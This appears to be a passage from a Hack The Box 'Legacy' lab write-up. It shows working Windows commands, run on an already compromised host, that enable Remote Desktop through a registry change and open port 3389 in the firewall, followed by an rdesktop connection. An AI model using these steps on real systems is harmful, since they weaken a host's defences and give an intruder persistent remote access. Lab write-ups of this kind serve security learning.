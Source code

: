 ```
The operation completed successfully

```

Disable the deny connections:

``` cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

and for good measure poke a hole in the firewall:

``` cmd
netsh firewall add portopening TCP 3389 " Remote Desktop"
```

works with the output:

```
Ok.
```

back to our original linux terminal we check the changes with rdp:

``` bash
rdesktop $TARGET
```

It worked!

![legacy_rdp.png](/assets/htb_stuff/legacy/legacy_rdp.png)
